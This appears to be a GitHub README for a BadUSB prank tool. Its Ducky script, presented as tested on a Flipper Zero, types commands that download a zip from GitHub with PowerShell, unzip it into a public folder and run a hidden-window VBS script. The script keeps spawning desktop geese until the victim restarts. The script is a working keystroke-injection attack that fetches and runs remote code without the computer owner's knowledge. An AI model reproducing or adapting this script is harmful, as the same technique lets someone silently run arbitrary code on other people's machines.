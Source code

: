 # Badusb-desktop-goose
Script for a badusb that will download and run a desktop goose every 60 seconds. To stop the spawining of the geese you have to restart your computer. You can also hold down ESC to evict the geese(the will come back)
must re start pc

## Ducky script(tested and working on flipper zero):
```
REM Download goose and unzip
DELAY 500
GUI r
DELAY 500
STRING cmd
DELAY 500
ENTER
DELAY 500
STRING powershell (New-Object System.Net.WebClient).DownloadFile('https://github.com/Ferferite/Badusb-desktop-goose/archive/refs/heads/main.zip', 'C:\Users\Public\Badusb-desktop-goose.zip')
DELAY 500
ENTER
DELAY 1000
STRING powershell Expand-Archive -Path 'C:\Users\Public\Badusb-desktop-goose.zip' -DestinationPath 'C:\Users\Public\Temp'
DELAY 500
ENTER
DELAY 500
STRING cd C:\Users\Public\Temp\Badusb-desktop-goose-main
DELAY 500
ENTER
STRING cscript inviswindow.vbs
DELAY 500
ENTER
STRING exit
DELAY 100
ENTER
```

